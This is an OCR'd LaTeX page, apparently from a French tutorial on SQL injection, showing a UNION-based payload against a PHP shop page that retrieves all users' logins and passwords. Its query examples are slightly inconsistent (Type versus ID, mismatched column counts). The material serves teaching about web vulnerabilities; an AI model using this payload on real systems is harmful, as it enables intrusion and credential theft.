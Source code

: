 http://www.monsite.tld/produits.php?type=4242

\begin{tabbing}
\end{tabbing}
Qui construit la requête légitime : 
\begin{tabbing}
\end{tabbing}

SELECT ID, Nom, Description, Prix FROM Produits WHERE Type = \$id

\begin{tabbing}
\end{tabbing}
Peut être abusée avec :

\begin{tabbing}
\end{tabbing}
http://www.monsite.tld/produits.php?type=4242 OR 1=0 UNION SELECT ID, Login, Password FROM users --
(pour fonctionner, cette requête devra être URL-encodée)

\begin{tabbing}
\end{tabbing}
La requête construite devient alors : 
\begin{tabbing}
\end{tabbing}

SELECT ID, Nom, Description, Prix FROM Produits WHERE ID = 4242 OR 1=0 UNION SELECT ID, Login, Password, 0 FROM users --

\begin{tabbing}
\end{tabbing}
Ici, il se passe deux choses :
\begin{tabbing}
\end{tabbing}
\begin{itemize}
\item "OR 1=0" fait en sorte que la 1ère requête avant l'UNION ne renverra pas de résultats dont le format risquerait de ne pas correspondre avec notre requête injectée.
\item La requete injectée après l'UNION est totalement sous notre controle, la seule contrainte étant la façon dont la page PHP va afficher les résultats renvoyés. Ici les identifiants apparaitront à la place du nom des produits, et les mots de passe à la place des descriptions. On aurait pu aussi récupérer une troisième info dans le champ Prix.
\end{itemize}

\begin{tabbing}
\end{tabbing}
La page affichera donc les identifiants et mots de passe de tous les utilisateurs de la boutique, qui sont renvoyés par la base de données.


